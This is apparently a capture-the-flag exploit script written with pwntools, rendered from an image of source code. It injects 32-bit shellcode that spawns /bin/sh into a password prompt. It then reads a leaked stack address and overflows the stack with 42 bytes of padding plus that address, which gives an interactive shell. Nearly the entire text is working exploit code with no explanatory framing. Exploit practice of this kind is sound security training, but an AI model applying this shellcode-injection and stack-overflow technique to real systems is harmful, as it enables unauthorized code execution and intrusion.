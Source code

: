 ```
'''.format(**locals())

if args.REMOTE:
    global_timeout = 3
    p = remote(REMOTE, REMOTEPORT)
else:
    global_timeout = 0.5
    p = process(PROGNAME)
    p = start()
#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
printflag_asm = """
xor ecx, ecx
mul ecx
xor ebx, ebx

mov al, 0xb
push ecx
push 0x68732f2f
push 0x6e69622f
mov ebx, esp
int 0x80
"""
# Want 0x53 bytes (83)
filler = b'a'
payload = asm(printflag_asm)
#print(payload.index(b"\x00"))
n_filler = 0x54 - len(payload) - 1
payload += filler * n_filler
#print(payload.index(b"\x00"))
print(payload)

p.recvuntil(b'Quit', drop=True)
p.recvline()
p.sendline(b'3')

p.recvuntil(b'password:', drop=True)
p.sendline(payload)

p.recvuntil(b'offset ', drop=True)
stack_pointer = p.recvline()
stack_pointer = str(stack_pointer[:10])
log.info(stack_pointer)
stack_pointer = stack_pointer[2:12]

log.info(stack_pointer)
stack_pointer = int(stack_pointer, 0)
log.info(f"Stack pointer: {stack_pointer}")
#Stack pointer acquired

p.recvuntil(b'> ', drop=True)
p.sendline(b'1')
#len_stack_pointer = len(stack_pointer)
#log.info(str(len_stack_pointer))

padding = 42
p.sendline(b'a'*padding + p32(stack_pointer))
p.interactive()
```
